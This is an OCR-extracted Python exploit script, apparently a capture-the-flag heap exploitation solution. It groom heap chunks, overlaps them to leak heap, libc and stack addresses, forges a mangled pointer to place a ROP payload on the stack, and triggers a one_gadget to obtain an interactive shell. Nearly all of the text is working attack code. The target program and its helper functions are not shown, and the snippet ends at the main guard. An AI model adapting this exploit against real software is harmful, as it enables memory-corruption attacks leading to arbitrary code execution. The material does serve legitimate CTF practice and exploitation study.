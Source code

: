 ```python

def main():

    add(16, b"a"*16)
    add(16, b"b"*16)
    add(16, b"c"*16)
    for _ in range(6):
        add(199, b"x"*199)

    free(3) # chunk for heap leak

    # leak libc and heap abusing chunk overlapping and unsortedbins
    payload = b"c"*16 + b"\x00"*8 + p64(0x4f1) + p64(40)
    modify(1, payload)
    heap = u64(view(2)[-8:]) << 12
    log.warning(f"heap: {hex(heap)}")

    free(2) # free big chunk into unsortedbins

    payload = b"b"*16 + b"\x00"*8 + p64(0x21) + p64(40)
    modify(0, payload)
    libc.address = u64(view(1)[-8:]) - (libc.sym["main_arena"] + 96)
    log.warning(f"libc: {hex(libc.address)}")
    
    payload = b"c"*16 + b"\x00"*8 + p64(0x21) + p64(16)
    modify(0, payload)

    # leak stack (environ)
    payload = b"b"*16 + b"\x00"*8 + p64(0x81) + p64(32)
    modify(4, payload)

    free(4)

    payload = p64(0x10) + p64(1) + p64(libc.sym["environ"])
    add(120, payload)
    retaddr = u64(view(2)[:8]) - 0x120
    log.warning(f"stack: {hex(retaddr)}")

    free(9)

	# ROP on the stack
    payload = (
        b"y"*16 + 
        p64(0) + 
        p64(0x61) + 
        p64(calculate_P1(retaddr-8, heap+0x378)) + 
        p64(heap+0x388) + # goes in rbp (tweak for onegadet)
        p64(heap+0x390) +
        p64(0)*2
    )
    add(120, payload)

    ONE_GADGET = libc.address + 0xebd3f
    rbp = p64(heap+0x380)
    retaddr = p64(ONE_GADGET)
    add(16, rbp + retaddr)

    r.sendlineafter(b">>", b"5") # exit to trigger onegadget

    r.interactive()


if __name__ == "__main__":
```